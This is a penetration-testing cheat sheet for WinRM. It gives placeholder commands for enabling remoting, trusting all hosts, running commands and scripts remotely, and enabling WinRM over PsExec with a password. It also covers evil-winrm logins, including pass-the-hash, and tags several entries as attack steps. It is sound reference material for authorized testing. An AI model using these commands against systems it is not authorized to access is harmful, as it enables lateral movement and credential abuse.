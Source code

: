 # winrm

% windows, remote, winrm, evilwinrm, 5985, 5986
#plateform/linux  #target/remote  #protocol/winrm #port/5985 #port/5986

## Enable winrm (powershell)
#plateform/windows #target/local #cat/UTILS 
```powershell
Enable-PSRemoting -Force  
Set-Item wsman:\localhost\client\trustedhosts *  
```

## Enable winrm (wmic)
#plateform/windows #target/local #cat/UTILS 
```batchfile
wmic /node:<REMOTE_HOST> process call create "powershell enable-psremoting -force"
```

## Test target is configure to use winrm (powershell)
#plateform/windows #target/local #cat/RECON 
```powershell
Test-WSMan -computername <computername>
```

## Execute a command on the target over winrm (powershell)
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT   
```powershell
Invoke-Command -computername <computername> -ScriptBlock {<cmd>} -credential <domain>\<username>
```

## Execute a script on the target over winrm (powershell)
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT 
```powershell
Invoke-Command -ComputerName <computername> -FilePath <path_to_script> -credential <domain>\<username>
```

## Get a powershell session with winrm (powershell)
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT 
```powershell
Enter-PSSession -ComputerName <computername> -Credential <domain>\<username>
```

## Enable winrm remotelly from psexec
#plateform/windows #target/remote #cat/ATTACK/EXPLOIT 
```batchfile
.\PsExec.exe \\<computername> -u <domain>\<username> -p <password> -h -d powershell.exe "enable-psremoting -force"  
```

## evil-winrm install
#target/local #cat/UTILS 
```
gem install evil-winrm
```

## evil-winrm use
#plateform/linux  #target/remote #cat/ATTACK/CONNECT 
```
evil-winrm -i <ip>/<domain> -u <user> -p <password>
```

## evil-winrm use pass the hash
#plateform/linux  #target/remote #cat/ATTACK/CONNECT 
```
evil-winrm -i <ip>/<domain> -u <user> -H <hash>
```
